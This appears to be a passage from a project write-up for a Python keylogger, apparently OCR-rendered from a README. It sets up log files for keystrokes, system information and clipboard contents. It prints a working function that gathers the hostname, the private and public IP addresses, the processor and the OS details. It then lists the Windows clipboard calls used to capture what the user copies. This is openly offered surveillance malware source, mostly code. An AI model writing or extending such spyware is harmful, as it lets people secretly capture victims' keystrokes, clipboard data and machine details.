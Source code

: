 ```python
keysInfo = "key_log.txt"
systemInfo = "system_info.txt"
clipboardInfo = "clipboard_info.txt"
```

<h3>System Information</h3>


<h4>Packages Used</h4>




1. **socket**
    1. Hostname
    2. IP
2. **requests**
    1. Public IP address
3. **platform**
    1. Processor
    2. System
    3. Version
    4. Machine

**Module Name:** 

* aboutSystem()


```python
# get System Info
def aboutSystem():
    with open(systemInfo, "w") as f:
        HOSTNAME = socket.gethostname()
        IP = socket.gethostbyname(HOSTNAME)

        try:
            publicIP = get("https://api.ipify.org").text
            f.write("Public IP Address: " + publicIP)
        except:
            f.write("[ERROR]: Failed to fetch Public IP.")
        
        f.write("Processor: " + platform.processor() + "\n")
        f.write("System: " + platform.system() + " " + platform.version() + "\n")
        f.write("Machine: " + platform.machine() + "\n")
        f.write("Hostname: " + HOSTNAME + "\n")
        f.write("Private IP Address: " + IP + "\n")
```


<h3>ClipBoard Information</h3>


<h4>Packages Used</h4>



1. win32clipboard
    1. OpenClipBoard()
    2. GetClipBoard()
    3. CloseClipBoard()
2. time()

